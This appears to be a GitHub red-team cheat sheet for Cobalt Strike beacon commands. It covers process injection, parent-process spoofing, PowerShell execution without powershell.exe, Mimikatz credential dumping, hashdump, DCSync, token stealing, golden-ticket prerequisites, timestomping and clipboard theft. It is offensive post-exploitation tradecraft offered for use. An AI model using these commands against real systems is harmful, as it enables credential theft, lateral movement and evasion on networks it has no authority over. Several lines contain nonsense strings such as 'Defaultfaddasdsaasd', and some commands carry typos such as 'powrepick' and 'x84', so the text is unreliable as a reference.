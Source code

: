 <p align="center">
  <img width="700" height="150" src="https://github.com/bigb0sss/RedTeam/blob/master/01-CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons

##### Sleep

```css
sleep 60 50               ; Sleep 60 sec witdeh 50% of jitter (Call back between 30 to 60 secs randomly)
```

### Command Execution

##### Defaultfaddasdsaasd
sedadsdsd
```css
run [command]wdedsaas
```
wqqdqw
##### powershell.exe

```css
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```

##### powerpick (Using PS w/o powershell.exe)
dqwdqwqd
```css
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)

```css
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET

```css
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe

```css
shell [command] [args]
```

### Session Passing

```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

### Parent Process Modification

```css
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

### SMB Beacn

```css
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

### TCP Beacn

```css
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

### Credentials and Hashes

```css
logonpasswords                              ; Run Mimikatz
hashdump                                    ; Get SAM database hashes
```

### Mimikatz

```css
mimikatz [command] [args]                   ; Runs a Mimikatz command
mimikatz ![command] [args]                  ; Elevate to SYSTEM and run Mimikatz command
mimikatz @[command] [args]                  ; User current token to run Mimikatz command
```

### DCSync

```css
dcsync [domain] [DOMAIN\user]
```

### File Download

```css
download [file]
cancel [file|*]
downloads
View --> Downloads --> Sync Files
```

### File Upload

```css
upload [/path/to/file]
timestomp [Destination] [Source]            ; Changing file's timestamps (*Do not recommend using it during the engagement)
```

### Token Stealing

```css
ps                                          ; List process
steal_token [PID]                           ; Stealing token
getuid                                      ; Identify/confirm who you are
rev2self                                    ; Drop/revoke token

spawnas DOMAIN\user password                ; Spawn a beacon w/ alternative creds
make_token DOMaIN\user password             ; Create a token. So when you do a make_token, when you do 'whoami' you will
                                            ; still see your current user account; however, if you do a remote 'whoami'
                                            ; (maybe against DC) you will see that the maked token user.
```

### Kerberos Tickets

```css
klist                                       ; See your current Kerberos tray
kerberos_ticket_purge                       ; Purge tickets
kerberos_ticket_user [/path/to/file.ticket] ; Load a ticket

<Golden Ticket>
- Desired user and DOMAIN name
- Domain SID [whoami /user + drop last number]
- NTLM hash of krbtgt user from DC
```

### Screenshots

```css
screenshot [pid] <x84|x64>
screenwatch [pid] <x84/x64>
printscreen
```

### Keylogging / ClipboardTheft

- [Start-ClipboardMonitor.ps1](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/Start-ClipboardMonitor.ps1)

```css
psinject <Process ID> x64 Start-ClipboardMonitor -CollectionLimit 5
```
